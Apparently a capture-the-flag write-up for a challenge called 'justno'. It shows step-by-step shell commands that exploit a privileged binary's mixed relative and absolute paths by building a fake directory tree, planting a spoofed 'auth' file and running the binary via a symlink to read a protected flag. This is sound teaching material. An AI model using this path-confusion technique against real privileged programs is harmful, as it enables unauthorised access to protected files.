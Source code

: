 First of all move to the correct directory by using the *cd* command:
```bash
cd /problems/579fe8ee083cd54f55718c1324687c74
```

Here we find 4 different files by writing **ls**.
The most interesting file is the **C-file**, which we can read by writing:
```bash
cat justno.c
```

In the code we can see that they are mixing relative and exact positions.
```c
Line 8:
../../problems/579fe8ee083cd54f55718c1324687c74/auth

Line 18:
/problems/579fe8ee083cd54f55718c1324687c74/flag
```

This means that one of the files could change without affecting the other one.
This could be abused in some situations, which is exactly what we will do.

Let's go back to our home directory by running the *cd* command without arguments:
```bash
cd
```

Then we will create a folder-structure matching the relative link in the code.
home__
|  problems__
|     579fe8ee083cd54f55718c1324687c74__
|        auth__
+- a__
      b__
         justno__

*auth* should be a file containing anything other than the text 'no' according to the previous code.
*justno* should be the binary file associated with the *C-file*.
We can however not compile it on our own since then it won't have the correct rights.
The same problem applies if we try to copy the first file.
So what we have to do is to create a symbolic link to the file. This is done by using the *cp* command with the *-s* attribute.

We do this by entering the following commands:
```bash
mkdir a problems
mkdir a/b
mkdir problems/579fe8ee083cd54f55718c1324687c74

echo "yes" > problems/579fe8ee083cd54f55718c1324687c74/auth
cd a/b
cp -s /problems/579fe8ee083cd54f55718c1324687c74/justno ./
./justno
```
